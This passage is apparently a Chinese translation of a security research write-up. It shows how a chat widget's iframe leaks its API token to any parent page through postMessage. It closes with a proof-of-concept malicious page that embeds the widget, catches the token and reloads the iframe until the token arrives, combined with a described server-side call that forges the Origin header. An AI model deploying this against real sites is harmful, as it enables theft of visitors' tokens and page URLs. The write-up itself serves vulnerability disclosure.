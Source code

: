 ```html
    }
  }
});

function chatIsLoaded() {
  ...
}

```


当chat-iframe加载时:


1.如果聊天小部件的localStorage中存在一个聊天api令牌，它将使用postMessage将这个api令牌发送给它的父组件。如果没有chat-api令牌存在，它就不会发送任何东西。

2.当iframe加载后，它将发送一个带有`{"type": "chat-widget"， "key": "init"}`的postMessage给它的父组件。


如果你点击主窗口的聊天图标:

1.如果chat-api-令牌还没有被发送，那么chat-widget会创建一个令牌，并将其放在自己的源的localStorage中，并将其postMessage发送给父窗口。


2.然后父窗口将对聊天服务进行api调用。api接口被cors限制为服务配置的特定网站。您必须为api调用提供一个有效的带有chat-api-令牌的origin头，以允许发送请求。


3.来自主窗口的api调用将包含location.href并使用chat-api-token将其注册为访问者的“当前页面”。然后，响应将包含一些令牌，以连接到一个websocket来启动聊天会话:


```json
{
  "api_data": {
    "current_page": "https://example.com/#access_token=test",
    "socket_key": "xxxyyyzzz",
    ...
  }
}

```


在这个例子中，我意识到chat-api-令牌的声明总是会通知给chat-widget iframe的父组件，如果我得到了chat-api-令牌，我就可以使用令牌发出服务器端请求，然后将我自己的人工Origin-header添加到api调用中，因为CORS-header只对浏览器重要。这将导致以下逻辑:


创建了一个嵌入chat-widget的iframe的恶意页面，添加了一个postMessage-listener来监听聊天api令牌。此外，如果我没有在2秒内获得api令牌，触发一个事件来重新加载iframe。这是为了确保我也支持从未发起过聊天的受害者，因为我可以触发远程打开聊天，所以我首先需要聊天api令牌从服务器端开始轮询聊天api中的数据。


```html

<div id="leak"><iframe
id="i" name="i"
src="https://chat-widget.example.com/chat" onload="reloadToCheck()"></iframe></div>
<script>
var gotToken = false;
function reloadToCheck() {
  if (gotToken) return;
  setTimeout(function() {
    document.getElementById('i').src = 'https://chat-widget.example.com/chat?' + Math.random();
  }, 2000);
}
window.onmessage = function(e) {
  if (e.data.key === 'api-token') {
    gotToken = true;
    lookInApi(e.data.value);    
  }
}
launchChatWindowByPostMessage();
</script>
```
